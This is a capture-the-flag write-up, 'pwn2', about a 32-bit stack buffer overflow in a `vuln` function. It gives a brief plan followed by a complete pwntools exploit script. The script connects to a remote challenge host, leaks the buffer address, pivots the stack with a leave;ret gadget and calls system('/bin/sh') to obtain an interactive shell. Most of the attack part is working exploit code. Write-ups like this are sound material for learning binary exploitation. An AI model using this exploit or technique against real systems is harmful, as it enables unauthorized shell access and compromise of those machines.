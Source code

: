# pwn2

buffer overflow in `vuln`
```c
ssize_t vuln()
{
  char buf[76]; // [esp+8h] [ebp-50h] BYREF

  puts("You are now in vuln! Please enter extra data:");
  printf("You will input this: %p\n", buf);
  puts("plz input your msg:\n");
  return read(0, buf, 0x58u);
}
```

but the length of overflow is too short to call `system("/bin/sh")`
need to stack migration esp to buffer_addr, set the buffer content to get shell

exploit: 
1. leak buf_addr
2. stack overflow and stack migration to buf
3. set the stack by setting buf as appending + system_plt_addr + appending + binsh_addr + '/bin/sh\x00'

```py
'''
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
'''

from pwn import *


local = 0
url, port = "0192d5d2f17c7e588f359b49d49d29f9.lnd7.dg03.ciihw.cn", 44621
filename = "./short"
elf = ELF(filename)
# libc = ELF("./libc.so.6") 
# context(arch="amd64", os="linux")
context(arch="i386", os="linux")

if local:
    context.log_level = "debug"
    io = process(filename)
    context.terminal = ['tmux', 'splitw', '-h']
    # gdb.attach(io)
else:
    context.log_level = "debug"
    io = remote(url, port)

buffer_size = 76 + 4
leave_ret_addr = 0x08048555
gift_addr = 0x080485E6
# system_addr = 0x080485FF # 0x080485FA
system_plt_addr = elf.plt['system']
vul_addr = 0x08048611

def B():
    gdb.attach(io)
    pause()

def pwn():
    io.sendlineafter(b'your username: ', b'admin')
    io.sendlineafter(b'your password: ', b'admin123')
    io.recvuntil(b'will input this: ')
    # B()
    buf_addr = int(io.recvuntil(b'\n', drop=True), 16)
    print(buf_addr)
    # log.info('buf_addr:', hex(buf_addr))
    binsh_addr = buf_addr + 0x10
    print('binsh_addr:', hex(binsh_addr))

    payload = p32(0) + p32(system_plt_addr) + p32(0) 
    payload += p32(binsh_addr) + b'/bin/sh\x00' # /bin/sh is 8 bytes
    payload = payload.ljust(buffer_size, b'F')
    payload += p32(buf_addr) + p32(leave_ret_addr)
    print('length of payload:', hex(len(payload)), payload)
    io.sendafter(b'input your msg:\n\n', payload)


if __name__ == "__main__":
    pwn()
    io.interactive()
```
